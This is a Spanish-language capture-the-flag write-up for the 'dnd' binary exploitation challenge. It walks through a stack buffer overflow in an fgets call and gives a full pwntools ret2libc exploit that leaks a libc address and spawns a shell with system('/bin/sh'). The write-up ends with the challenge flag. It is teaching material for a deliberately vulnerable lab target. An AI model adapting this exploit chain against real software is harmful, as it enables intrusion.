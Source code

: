 # dnd

```
checksec --file=dnd
[*] '/home/kalcast/Descargas/Pwn/dnd/dnd'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

El binario no tiene PIE ni canary (direcciones fijas y posible buffer overflow)

Si obtenemos puntos negativos "ganamos" el juego y entonces podemos introducir nuestro nombre. Se usa la funcion `fgets` para leer 0x100 bytes en un buffer de 32 asi que claramente hay un buffer overflow
```
var int64_t var_40h @ rbp-0x40
var char * s @ rbp-0x60             <--- se almacena aqui (0x60-0x40=0x20=32 bytes)
...
|           0x004028a5      488b15d458..   mov rdx, qword [obj.stdin]  ; loc.__bss_start
|                                                                      ; [0x408180:8]=0 ; FILE *stream
|           0x004028ac      488d45a0       lea rax, [s]
|           0x004028b0      be00010000     mov esi, 0x100              ; 256 ; int size
|           0x004028b5      4889c7         mov rdi, rax                ; char *s
|           0x004028b8      e813fcffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
```

El offset es de 0x60 + 8(RBP almacenado) = 104 bytes

Primero hacemos un leak de una direccion de libc. Las direcciones de libc se almacenan en la GOT, usamos por ejemplo `got.puts` y se lo pasamos de argumento a `plt.puts`, entonces puts imprimira su propia direccion y asi podremos calcular la direccion base de libc.

Para esto necesitamos un gadget. Un `pop rdi;ret` seria lo ideal pero lo mejor que pude obtener fueron estos:
```
ROPgadget --binar dnd | grep rdi
0x000000000040263d : in eax, 0x6a ; pop rdi ; nop ; pop rbp ; ret
0x0000000000403504 : mov ebp, esp ; mov qword ptr [rbp - 8], rdi ; nop ; pop rbp ; ret
0x000000000040263c : mov ebp, esp ; push 0x42 ; pop rdi ; nop ; pop rbp ; ret
0x00000000004041d1 : mov qword ptr [rbp - 8], rdi ; mov qword ptr [rbp - 0x10], rsi ; jmp 0x4041f4
0x0000000000403c44 : mov qword ptr [rbp - 8], rdi ; mov rax, qword ptr [rbp - 8] ; pop rbp ; ret
0x0000000000403506 : mov qword ptr [rbp - 8], rdi ; nop ; pop rbp ; ret
0x0000000000403503 : mov rbp, rsp ; mov qword ptr [rbp - 8], rdi ; nop ; pop rbp ; ret
0x000000000040263b : mov rbp, rsp ; push 0x42 ; pop rdi ; nop ; pop rbp ; ret
0x0000000000404467 : movsd dword ptr [rdi], dword ptr [rsi] ; loopne 0x404469 ; dec dword ptr [rax - 0x75] ; pop rbp ; clc ; leave ; ret
0x00000000004025a6 : or dword ptr [rdi + 0x408158], edi ; jmp rax
0x000000000040200c : pop rdi ; add byte ptr [rax], al ; test rax, rax ; je 0x402016 ; call rax
0x0000000000402640 : pop rdi ; nop ; pop rbp ; ret
0x000000000040263e : push 0x42 ; pop rdi ; nop ; pop rbp ; ret
0x000000000040263a : push rbp ; mov rbp, rsp ; push 0x42 ; pop rdi ; nop ; pop rbp ; ret
0x0000000000402e9e : sar byte ptr [rdi + 7], 0xb8 ; add dword ptr [rax], eax ; add byte ptr [rax], al ; jmp 0x402ead
0x00000000004044ad : stosb byte ptr [rdi], al ; add byte ptr [rax], al ; add cl, cl ; ret
```

Con la direccion base de libc conocida retornamos a main, "jugamos" y obtenemos la entrada vulnerable de nuevo, usamos nuestro gadget otra vez pero esta vez el parametro es `/bin/sh` y llamaremos a `system` para invocar una shell interactiva.

Exploit
```python
from pwn import *
#io = process("./dnd")
io = remote("dnd.chals.damctf.xyz",30813)
elf = context.binary = ELF("./dnd")
libc = context.binary = ELF("./libc.so.6")

# Negative points to get input
def play_game():
    io.recvuntil(b"Do you want to [a]ttack or [r]un? ")
    io.sendline(b"a")
    io.recvuntil(b"Points: ")
    points = int(io.recvuntil(b"|").decode()[:-2])
    if points < 0:
        for _ in range(4):
            io.recv()
            io.sendline(b"r")
    else:
        print("Fail!")
        exit(1)


# === ret2libc ===
# 1. leak libc.puts
play_game()
# 0x0000000000402640 : pop rdi ; nop ; pop rbp ; ret
pop_rdi_addr = 0x402640
payload = flat (
         cyclic(104),
         p64(pop_rdi_addr),
         elf.got.puts,
         b"A"*8,
         elf.plt.puts,
         elf.sym.main,
        )
io.sendlineafter(b"fierce warrior?",payload)
io.recvline()

# 2. Get libc base address
leak = io.recvline().strip()
puts_libc = u64(leak.ljust(8, b"\x00"))
log.success(f"puts@libc: {hex(puts_libc)}")
libc.address = puts_libc - libc.sym.puts

# 3. Call system("/bin/sh")
play_game()
sh = next(libc.search(b"/bin/sh\x00"))
ret_addr = pop_rdi_addr + 3
payload = flat (
         cyclic(104),
         p64(ret_addr),       # stack alignment
         p64(pop_rdi_addr),
         sh,
         b"A"*8,
         libc.sym['system'],
#         p64(0),              # stack alignment
        )
io.sendlineafter(b"fierce warrior?", payload)
io.interactive()
```

`dam{w0w_th0s3_sc4ry_m0nster5_are_w3ak}`
